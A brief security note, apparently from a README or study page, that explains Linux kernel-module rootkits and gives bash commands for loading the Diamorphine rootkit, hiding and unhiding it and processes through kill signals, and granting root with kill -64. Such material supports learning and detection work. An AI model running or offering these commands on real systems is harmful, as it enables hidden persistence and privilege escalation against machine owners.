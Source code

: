 [Rootkits](https://attack.mitre.org/techniques/T1014/) are programs used to hide malware, hook and modify operating system API calls. Usually, on Linux machines, these are created in form of Linux Kernel Module (LKM) which can be inserted in the kernel.

Example:
https://github.com/wazuh/Diamorphine

```bash
# Inset rootkit.ko into kernel
insmod diamorphine.ko
# List kernel modules / you cant see this cuz rootkit is hidden 
lsmod
# Unhide Diamorphine module
kill -63 <any_random_pid>
# Hide Diamorphine module
sleep 1000
kill -31 <pid_of_process> # this will hide in sleep 1000 process and that could be any process
# Diamorphine can grant any use root whoever runs
kill -64 <any_random_pid>
```

